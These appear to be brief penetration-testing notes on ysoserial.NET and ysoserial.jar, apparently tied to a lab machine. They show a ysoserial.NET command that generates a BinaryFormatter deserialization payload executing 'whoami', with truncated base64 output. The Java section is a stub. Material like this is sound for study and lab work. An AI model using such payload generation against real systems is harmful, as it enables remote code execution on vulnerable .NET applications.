 ### Ysoserial.NET
[ysoserial.NET](https://github.com/pwntester/ysoserial.net/releases/tag/v1.35) this tool only works for Windows, after download it we need to identify the format of the binary or program running the code (-g) and the format (-f) that has the deserialization/serialization vulnerability:

```cmd
C:\Users\Administrator\Desktop\Release>ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "whoami"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFs...
dGdVkyVStEUW84TDA5aWFtVmpkRVJoZEdGUWNtOTJhV1JsY2o0TAs=
```
Example:
[[Scramble#^564d19]]

## Ysoserial.jar
[ysoserial.jar](https://github.com/frohoff/ysoserial/releases) for java deserialization

TODO